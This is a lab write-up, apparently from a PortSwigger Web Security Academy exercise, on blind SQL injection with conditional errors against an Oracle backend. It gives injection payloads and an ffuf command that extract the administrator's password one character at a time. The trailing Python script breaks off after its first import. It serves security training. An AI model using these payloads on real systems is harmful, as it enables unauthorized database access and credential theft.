 ## Lab: Blind SQL injection with conditional errors

Here we know that the web application executes a SQL statement by considering also a Cookie value `TrackingID` in the following manner:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xyz'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user (indeed it is Blind SQLi). However, the application does behave differently depending on whether the submitted query is correct. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

Since in Blind SQLi it is not possible to use UNION SQLi techniques (because they need the web page displays the DB data as response), we can try to inject some SQL stataments:
```sql
TrackingId=xyz'
```
We get an error message.
```sql
TrackingId=xyz''
```
No error message. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

ou now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:
```sql
TrackingId=xyz'||(SELECT '')||'
```
The query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:
```sql
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
If you try with a non-existent table, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.

For getting our data of interest, you need of this SQL statement:
```
TrackingId=xyz' || (SELECT CASE WHEN (SUBSTR((SELECT password from users where username = 'administrator'),1,1) = 'e') THEN to_char(1/0) ELSE NULL END FROM dual)--
```
In this way, if the condition is true, we get an error (because 1/0 is mathematically unfeasable). Step by step, we can get all the letters of the password of the administrator.

If you want to use `ffuf`, type this:
```
ffuf -w wl.txt:FFUF -u https://ac911f0f1fa8df84c0961d8100c900a6.web-security-academy.net/filter?category=Accessories -H 'Host: ac911f0f1fa8df84c0961d8100c900a6.web-security-academy.net' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Referer: https://ac911f0f1fa8df84c0961d8100c900a6.web-security-academy.net/' -H "Cookie: TrackingId=xyz'|| (SELECT CASE WHEN (SUBSTR((SELECT password from users where username = 'administrator'),1,1) = 'FFUF') THEN to_char(1/0) ELSE NULL END FROM dual)--; session=S8fDEwm5boIASbkq1p4IbV79QQAoiflj" -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -mc 500
```
For avoiding to repeat this for each letter of the password, you can a Python script like the following:
```python
#!/bin/env/python

import subprocess
```